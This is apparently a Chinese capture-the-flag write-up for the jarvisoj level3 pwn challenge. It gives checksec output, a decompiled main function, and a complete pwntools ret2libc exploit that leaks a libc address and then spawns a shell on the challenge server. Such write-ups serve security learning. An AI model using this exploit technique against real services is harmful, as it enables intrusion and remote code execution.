 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level3
date: 2022-3-25 17:31:03
permalink: /pages/2e1547494524d199
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level3

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level3/level3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

vulnerable_function函数及函数表如下

![jarvisoj_level3_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jarvisoj_level3_1.png)

## 思路分析

1. 目前信息：
   - `vulnerable_function`函数可溢出
   - 无`system`、`/bin/sh`及后门函数
   - No PIE
2. 思路：
   - 32位`ret2libc`做法

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level3/level3'
io = remote('node4.buuoj.cn', 28630)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 136+4
libc_start_main_got = elf.got['__libc_start_main']
write_plt = elf.plt['write']
vulnerable_function = elf.symbols['vulnerable_function']
payload = flat(['a'*padding, write_plt, vulnerable_function,1, libc_start_main_got, 4])
io.sendafter('Input:\n', payload)
leak_libc_start_main = u32(io.recvuntil('Input:\n', drop=True))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libc_base = leak_libc_start_main-libc.dump('__libc_start_main')
system = libc_base+libc.dump('system')
bin_sh = libc_base+libc.dump('str_bin_sh')
payload = flat(['a'*padding, system, 0xdeadbeef, bin_sh])
io.send(payload)
io.interactive()
```